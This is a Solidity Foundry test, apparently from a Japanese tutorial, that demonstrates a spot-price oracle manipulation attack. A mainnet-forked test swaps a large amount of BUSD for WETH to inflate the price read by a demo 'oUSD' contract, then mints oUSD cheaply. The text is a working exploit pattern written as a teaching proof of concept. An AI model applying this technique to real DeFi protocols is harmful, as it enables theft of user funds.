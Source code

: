 ```solidity
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // 指定ブロックをフォーク
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // オラクルを攻撃
        // 0. オラクル操作前の価格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 自分のアカウントに1000000 BUSDを付与
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. busdでwethを買い、瞬時価格を押し上げる
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. オラクル操作後の価格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. oUSDを鋳造
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this))/10e18);
    }

    // BUSDをWETHに交換
    function swapBUSDtoWETH(uint amountIn, uint amountOutMin)
        public
        returns (uint amountOut)
    {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint[] memory amounts = router.swapExactTokensForTokens(
            amountIn,
            amountOutMin,
            path,
            alice,
            block.timestamp
        );

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```
